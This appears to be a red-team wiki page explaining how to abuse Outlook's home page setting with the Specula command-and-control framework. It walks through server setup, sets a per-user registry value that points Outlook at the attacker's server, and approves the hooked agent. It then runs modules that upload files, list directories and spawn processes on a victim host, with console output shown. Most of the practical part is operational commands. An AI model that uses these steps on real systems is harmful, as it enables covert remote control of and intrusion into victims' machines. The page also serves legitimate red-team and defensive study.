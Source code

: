 # Outlook Home Page Abuse (Specula)

## Theory

[Specula ](https://github.com/trustedsec/specula)is a framework designed to enable interactive operations of an implant within the context of Outlook. It achieves this by setting a custom Outlook homepage via registry keys that call out to an interactive Python web server. This web server serves custom patched VBScript files that execute a command and return a string response.

Despite the belief that the Outlook home page functionality had been patched ([CVE-2017-11774](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2017-11774)), it was discovered that the associated Registry values continue to be utilized by Outlook, even in current Office 365 installs.

To establish a C2 channel, an attacker can modify a single non-privileged Registry key, creating the `REG_SZ` value of `URL` under `HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox` and pointing it to the validation URL on the Specula server:

## Practice

{% tabs %}
{% tab title="Setting up" %}
You can use IP addresses, but a recommendation is to use a DNS record. In this example we are going to use DNS. Start by pointing a DNS record towards your public IP of the server you will be using as a Specula server. Let us pretend that we created an A-record named demo.specula.com with the value of our public IP.

#### HTTPS

If you are planning to use SSL (Recommended) you will need to request the certificates. This guide shows how to do that with free let's encrypt certificates. We first need to install certbot:

```
apt install certbot
```

Next you want to make sure that you have allowed inbound communication on port 80/443. Then we request a certificate using the example of demo.specula.com (change this to your environment):

```
certbot certonly --non-interactive --agree-tos --email <SOME EMAIL ADDRESS> --standalone --preferred-challenges http -d demo.specula.com
```

This will produce certificate files so note down the paths to them, since you will need to reference them when starting Specula for the first time. In our example we want to keep these lines:

```
/etc/letsencrypt/live/demo.specula.com/fullchain.pem
/etc/letsencrypt/live/demo.specula.com/privkey.pem
```

The path to fullchain.pem will be the input when Specula asks for the _cert\_file_ as part of the startup and the privkey.pem will be to the _key\_file_.

#### Setting up Specula

First you should install a python virtual environment. You can of course install to the global package root, but this can cause issues that are later hard to diagnose.

If you're unfamiliar with python virtual environments and just want to know what to type a basic install would look like

```
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

#### Starting Specula

```
sudo python specula.py
```

Since this is the first time you are starting Specula it will ask you for a variety of options, which will then be stored and used for future runs. The settings will be stored in a file called _specConfig.ini_. If you ever want to reset your settings and start over this file can be removed.
{% endtab %}

{% tab title="Hook an agent" %}
### Edit Registry

To hook an agent, all you need to do is to create the registry `REG_SZ` value of `URL` under `HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox` and add the value pointing to your validation url on the Specula server.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

To avoid issues with ActiveX, it is recommended to adjust a few settings. Users can generate a full reg file with the recommended settings by running `generatehooker` from the root of the Specula menu. This reg file can then be copied to a Windows client with Outlook and imported. To ensure the registry key takes effect, Outlook should be stopped and restarted if it is running.

```
SpeculaC2> generatehooker 
```

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

### Approve Agent

The agent should now show up in Specula and depending on setup, you will either need to approve it manually (if initial\_checkin\_count is set to 0) or you will have to wait until the necessary checkins have been reached before Specula will generate an encryption key and send back to the agent. On the Outlook side when everything is completed, it will change view from Inbox to Calendar. Once you change view back to Inbox you have a fully Specula agent running.

```powershell
# List agents
SpeculaC2> agents
id  hostname:username             ip address        refreshTime  Lastseen              approved    encryptionkey            api installed/verified
1   DEMO-VICTIME-PC:User           192.168.206.172   10           08/14/2024-11:50:56   NO (Checkin: 2 of 0)N/A                      False/False

# Approve Agent
SpeculaC2> approveAgent 1
Agent will be approved on next callback
```
{% endtab %}

{% tab title="Execute" %}
### Select Agent

In order to assign tasks to agents and execute code, we first need to select it

```powershell
# List agents
id  hostname:username             ip address        refreshTime  Lastseen              approved    encryptionkey            api installed/verified
1   DEMO-VICTIME-PC:User          192.168.206.172   10           08/14/2024-11:51:21   YES         HNjPsC0pruHvYPTTZVXpAA   False/False

# Select agent
SpeculaC2> interact 1
```

### Execute a module

```powershell
# Upload a file
SpeculaC2:hostname>usemodule operation/file/put_file
SpeculaC2:hostname:operation/file/put_file>set file /tmp/file2upload.txt
SpeculaC2:hostname:operation/file/put_file>set destination c:\temp\file2upload.txt
SpeculaC2:hostname:operation/file/put_file>run
Module operation/file/put_file added to execution queue
SpeculaC2:hostname>07/24/2024-08:02:30 - Finished uploading file to hostname at c:\temp\file2upload.txt - Sizes match: server:7 - agent:7

# Directory listing
SpeculaC2:hostname>usemodule operation/file/list_dir
SpeculaC2:hostname:operation/file/list_dir>set directory c:\temp
SpeculaC2:hostname:operation/file/list_dir>run
Module operation/file/list_dir added to execution queue
SpeculaC2:hostname>data
07/24/2024-07:59:29 -- operation/file/list_dir
Parent Folder: c:\temp
F: C:\temp\importantfile.txt - Size: 0mb - LastModified: 7/22/2024 1:19:18 PM

# Spawn a process
SpeculaC2:hostname>usemodule execute/host/spawnproc_explorer
SpeculaC2:hostname:execute/host/spawnproc_explorer>set command c:\windows\system32\msiexec.exe
SpeculaC2:hostname:execute/host/spawnproc_explorer>set arguments /?
SpeculaC2:hostname:execute/host/spawnproc_explorer>run
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://trustedsec.com/resources/tools/specula" %}

{% embed url="https://github.com/trustedsec/specula/wiki" %}

